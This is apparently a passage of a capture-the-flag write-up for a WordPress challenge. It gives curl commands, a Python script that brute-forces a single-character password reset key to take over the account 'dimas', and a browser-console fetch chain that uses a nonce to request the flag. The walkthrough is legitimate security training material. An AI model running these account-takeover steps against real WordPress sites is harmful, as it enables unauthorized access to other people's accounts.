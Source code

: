*   **Generate a Reset Key**: Use the AJAX endpoint to generate a password reset key for the newly created user.

    ```shell
    curl "http://100.25.255.51:9093/wp-admin/admin-ajax.php?action=reset_key" -X POST --data "user_id=25"

    ```

*   **Get the Reset Key**: Use a brute-force approach to find the reset key. The key is likely a single character, so try all possible characters until you find the correct one.

    ```python
    import requests

    url = "http://100.25.255.51:9093/wp-login.php?action=rp"
    possible_chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"

    for c in possible_chars:
        r = requests.get(url + "&key=" + c + "&login=dimas")
        if "appears to be invalid" not in r.text:
            print("Key found: " + c)
            break
        else:
            print("Testing key: " + c)

    ```

*   **Access the Password Reset Page**: Once you have the reset key, navigate to the password reset page with the found key.

    ```plain text
    http://100.25.255.51:9093/wp-login.php?action=rp&key=<your_reset_key>&login=dimas

    ```

*   **Get the Nonce**: To perform actions that require authorization, you need to obtain a nonce. Make a request to fetch the latest posts while being logged in.

    ```shell
    curl -X POST --cookie "wordpress_logged_in_...=..." http://100.25.255.51:9093/wp-admin/admin-ajax.php?action=get_latest_posts

    ```

*   **Request the Flag**: Finally, use the nonce obtained from the previous step to request the flag from the server.

    ```shell
    curl -X POST --cookie "wordpress_logged_in_...=..." http://100.25.255.51:9093/wp-admin/admin-ajax.php?action=patchstack_flagger --data "nonce=<your_nonce>"

    ```

Alternative, you can copy this payload in developer console to get the flag after you login

```javascript
fetch("http://100.25.255.51:9093/wp-admin/admin-ajax.php?action=get_latest_posts").then(a=>a.json()).then(a=>fetch("/wp-admin/admin-ajax.php?action=patchstack_flagger", {headers: {"content-type": "application/x-www-form-urlencoded"},body:"nonce="+a.data.nonce, method: "post"})).then(a=>a.text()).then(console.log)

```
